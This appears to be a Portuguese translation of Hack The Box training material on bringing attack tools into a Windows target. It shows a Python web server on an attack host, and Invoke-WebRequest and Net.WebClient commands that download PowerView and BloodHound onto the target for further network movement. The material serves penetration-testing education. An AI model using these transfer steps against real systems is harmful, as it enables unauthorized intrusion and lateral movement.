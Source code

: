 ### Caminho de exemplo para trazer ferramentas para um ambiente

Se já tivéssemos o PowerView.ps1 armazenado em nosso host de ataque, poderíamos usar um servidor web Python simples para hospedar o PowerView.ps1 e baixá-lo do alvo. Do host de ataque, queremos confirmar se o arquivo já está presente ou precisamos baixá-lo. Neste exemplo, podemos assumir que já está no host de ataque para fins de demonstração.

```shell
casluxd@htb[/htb]$ ls

Dictionaries            Get-HttpStatus.ps1                    Invoke-Portscan.ps1          PowerView.ps1  Recon.psd1
Get-ComputerDetail.ps1  Invoke-CompareAttributesForClass.ps1  Invoke-ReverseDnsLookup.ps1  README.md      Recon.psm1
```

Iniciamos um servidor web python simples no diretório onde o PowerView.ps1 está localizado.

```shell-session
casluxd@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```powershell-session
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

Conforme discutido anteriormente, podemos usar o cmdlet Invoke-WebRequest para enviar comandos para hosts remotos. Isso pode ser bastante útil, especialmente quando descobrimos vulnerabilidades que nos permitem executar comandos em um alvo do Windows, mas podem não ter acesso por meio de um shell interativo ou sessão de área de trabalho remota. Isso pode permitir o download de arquivos no host de destino, permitindo-nos acessar ainda mais esse destino e passar para outros na rede.

## E se não pudermos usar o Invoke-WebRequest?

Então, o que acontece se formos impedidos de usar o Invoke-WebRequest por algum motivo? Não se preocupe, o Windows fornece vários métodos diferentes para interagir com clientes da web. O primeiro e mais desafiador caminho de interação é utilizar a classe .Net.WebClient. Essa classe prática é uma chamada .Net que podemos utilizar conforme o Windows usa e entende .Net. Essa classe contém métodos system.net padrão para interagir com recursos por meio de um URI (endereços da web como github.com/project/tool.ps1). Vejamos um exemplo:

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")

PS C:\htb> ls

    Directory: C:\Users\MTanaka

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          11/10/2022 10:45 AM      108511752 Bloodhound.zip
-a---           6/14/2022  8:22 AM           4418 passwords.kdbx
-a---            9/9/2020  4:54 PM         696576 Start.exe
-a---           9/11/2021 12:58 PM              0 sticky.gpr
-a---          11/10/2022 10:44 AM      108511752 test.zip
```
